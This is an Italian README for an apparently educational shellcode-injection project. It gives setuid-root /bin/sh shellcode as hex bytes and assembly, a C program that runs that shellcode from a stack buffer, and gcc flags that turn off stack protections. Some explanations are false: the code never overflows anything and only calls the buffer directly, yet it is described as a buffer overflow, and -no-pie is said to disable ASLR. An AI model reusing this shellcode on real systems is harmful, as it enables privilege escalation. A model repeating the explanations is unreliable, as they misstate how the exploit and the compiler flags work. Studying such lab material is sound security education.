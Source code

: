 # Shellcode Injection Project

## Descrizione del Progetto

Questo progetto dimostra una tecnica di exploit nota come Shellcode Injection. L'obiettivo è eseguire del codice arbitrario (shellcode) sfruttando una vulnerabilità di buffer overflow in un programma C.

## File del Progetto

- `vuln.c`: Il programma vulnerabile scritto in C.
- `build.sh`: Script di compilazione per costruire l'eseguibile vulnerabile `vuln`.

## Panoramica del Codice

### vuln.c

Il file `vuln.c` contiene un semplice programma C che è vulnerabile a un buffer overflow. Il programma include uno shellcode che lancia una shell `/bin/sh` con privilegi di root.

```c
#include <stdio.h>
#include <string.h>

unsigned char shellcode[] = \
"\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh";

int main() {
    printf("Shellcode Length:  %lu\n", strlen(shellcode));

    char buffer[68];
    memset(buffer, '\x90', sizeof(buffer));

    memcpy(buffer, shellcode, strlen(shellcode));

    unsigned int ret_addr = 0xffffcf20; 
    *((unsigned int*)(buffer + 64)) = ret_addr;

    int (*ret)() = (int(*)())buffer;
    ret();

    return 0;
}
```

Il programma vuln.c definisce un buffer di 68 byte e copia il nostro shellcode all'interno di esso. Dopo aver riempito il buffer con il nostro shellcode, l'indirizzo di ritorno viene sovrascritto con un indirizzo specifico (in questo caso, 0xffffcf20). Poi, il programma esegue il contenuto del buffer come se fosse una funzione.

- `unsigned char shellcode[]`: Questa variabile contiene lo shellcode che esegue /bin/sh.

- `char buffer[68]`: Definisce un buffer di 68 byte.

- `memset(buffer, '\x90', sizeof(buffer))`: Riempie il buffer con istruzioni NOP (No Operation). Questo serve a creare un'area di sicurezza nel caso in cui l'indirizzo di ritorno non sia esattamente corretto.

- `memcpy(buffer, shellcode, strlen(shellcode))`: Copia lo shellcode all'inizio del buffer.

- `unsigned int ret_addr = 0xffffcf20`: Definisce l'indirizzo di ritorno che sovrascriverà l'indirizzo di ritorno originale sullo stack. Questo indirizzo dovrebbe puntare a una posizione all'interno del buffer contenente il nostro shellcode.

- `*((unsigned int*)(buffer + 64)) = ret_addr`: Sovrascrive l'indirizzo di ritorno con ret_addr.

- `int (*ret)() = (int(*)())buffer; ret();`: Definisce un puntatore a funzione che punta all'inizio del buffer ed esegue il codice in esso contenuto. 

## build.sh
Il file `build.sh` è uno script di shell per compilare il programma vulnerabile. Utilizza gcc con specifiche opzioni per disabilitare le protezioni di sicurezza come il canary stack e l'ASLR (Address Space Layout Randomization).
```sh
gcc -z execstack -fno-stack-protector -m32 -no-pie -o vuln vuln.c
```
### Opzioni di compilazione
- `-z execstack`: Permette l'esecuzione dello stack. Di default, lo stack non è eseguibile per prevenire attacchi come buffer overflow, quindi questa opzione è necessaria per eseguire il nostro shellcode dallo stack.

- `-fno-stack-protector`: Disabilita il canary stack, una protezione che previene buffer overflow rilevando la corruzione del stack.

- `-m32`: Compila il programma come un binario a 32 bit.

- `-no-pie`: Disabilita l'Address Space Layout Randomization (ASLR), una tecnica di sicurezza che randomizza le posizioni di memoria delle regioni chiave del processo (come stack, heap, librerie, ecc.). Disabilitando ASLR, possiamo prevedere l'indirizzo di ritorno per il nostro exploit.

- `-o vuln`: Specifica il nome del file di output generato dalla compilazione (in questo caso, vuln).

## Shellcode
Lo shellcode è una sequenza di istruzioni in linguaggio macchina che esegue una specifica funzione. In questo caso, il nostro shellcode esegue una shell /bin/sh. Di seguito è riportato il codice assembly corrispondente al nostro shellcode:
```assembly
section .text
    global _start

_start:
    xor eax, eax            ; azzera eax
    xor ebx, ebx            ; azzera ebx
    mov al, 0x17            ; setta eax a 0x17 (syscall per setuid)
    int 0x80                ; invoca la syscall

    jmp short call_shell    ; salta alla sezione call_shell

code_start:
    pop esi                 ; pop della stringa "/bin/sh" in esi
    mov [esi+0x8], esi      ; copia l'indirizzo della stringa in [esi+8]
    xor eax, eax            ; azzera eax
    mov byte [esi+7], al    ; setta il byte nullo alla fine della stringa
    mov [esi+0xc], eax      ; setta [esi+0xc] a 0
    mov al, 0xb             ; setta eax a 0xb (syscall per execve)
    mov ebx, esi            ; copia l'indirizzo della stringa in ebx
    lea ecx, [esi+0x8]      ; carica l'indirizzo dell'array di argomenti in ecx
    lea edx, [esi+0xc]      ; carica l'indirizzo dell'array di environment variables in edx
    int 0x80                ; invoca la syscall

    xor ebx, ebx            ; azzera ebx
    mov eax, ebx            ; copia ebx in eax
    inc eax                 ; incrementa eax (setta eax a 1)
    int 0x80                ; invoca la syscall per exit

call_shell:
    call code_start         ; chiama code_start
    .ascii "/bin/sh"        ; stringa "/bin/sh"
```
Questo shellcode segue questi passaggi:
1. Setta i registri `eax` e `ebx` a zero.
2. Invoca la syscall `setuid` per settare l'UID effettivo a 0 (root).
3. Salta a `call_shell` per posizionare l'indirizzo della stringa `/bin/sh` sullo stack.
4. Copia la stringa `/bin/sh` in `esi`.
5. Prepara gli argomenti per la syscall `execve`.
6. Invoca `execve` per eseguire `/bin/sh`.
7. Se `execve` fallisce, invoca `exit`.

## Esecuzione del progetto
Per eseguire il progetto, seguire i passaggi seguenti:

1. Assicurati di avere installato GCC con il supporto per la compilazione a 32 bit. Su un sistema Debian/Ubuntu, puoi installare i pacchetti necessari con:
```sh
sudo apt-get install gcc-multilib g++-multilib
```
2. Compila il programma eseguendo lo script build.sh:
```sh
./build.sh
```
3. Esegui il programma compilato:
```sh
./vuln
```

## Nota di sicurezza
Questo progetto è puramente educativo e dimostra tecniche di exploit che non dovrebbero essere utilizzate in ambienti di produzione. Utilizzare queste tecniche in modo responsabile e solo in ambienti controllati per fini di studio e ricerca.

## Autore
Progetto sviluppato da Federico Fiorelli.

